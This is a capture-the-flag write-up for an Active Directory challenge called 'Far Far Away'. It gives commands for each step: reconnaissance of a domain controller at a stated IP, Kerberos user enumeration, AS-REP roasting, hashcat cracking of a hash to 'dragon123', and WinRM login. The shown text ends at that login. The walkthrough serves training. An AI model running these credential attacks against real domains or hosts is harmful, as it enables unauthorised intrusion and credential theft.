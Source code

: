 # CTF Challenge Writeup: Far Far Away

## English Writeup

### Challenge Overview
"Far Far Away" is an Active Directory exploitation challenge that tests your knowledge of Windows domain enumeration and privilege escalation techniques. You'll need to leverage various Kerberos attacks, credential harvesting, and Windows privilege abuse to reach the final flag.

### Step 1: Initial Reconnaissance
Begin by performing network reconnaissance to identify the domain controller at IP 51.79.55.195. Using tools like nmap, you can identify that this is a Windows domain controller for FARFARAWAY.local with services like Kerberos (88/tcp) and WinRM (5985/tcp) running.

```
$ nmap -sC -sV 51.79.55.195
```

### Step 2: Kerberos User Enumeration
Using tools like Kerbrute or similar, enumerate valid usernames in the domain:

```
$ kerbrute userenum --dc 51.79.55.195 -d FARFARAWAY.local /path/to/wordlist.txt
```

This should reveal several users including dragon.

### Step 3: ASREPRoasting dragon
After identifying dragon, we can check if Kerberos pre-authentication is disabled for this account using GetNPUsers.py from Impacket:

```
$ python3 GetNPUsers.py FARFARAWAY.local/dragon -no-pass -dc-ip 51.79.55.195
```

This reveals that dragon has pre-authentication disabled, which allows us to obtain a TGT hash without knowing the password.

### Step 4: Cracking dragon's Password
Using the captured hash, we can crack dragon's password with Hashcat:

```
$ hashcat -m 18200 john_hash.txt /path/to/wordlist.txt
```

This reveals the password: dragon123

### Step 5: WinRM Access as dragon
With dragon's credentials, we can access the system via WinRM:

```
$ evil-winrm -i 51.79.55.195 -u dragon -p dragon123
```
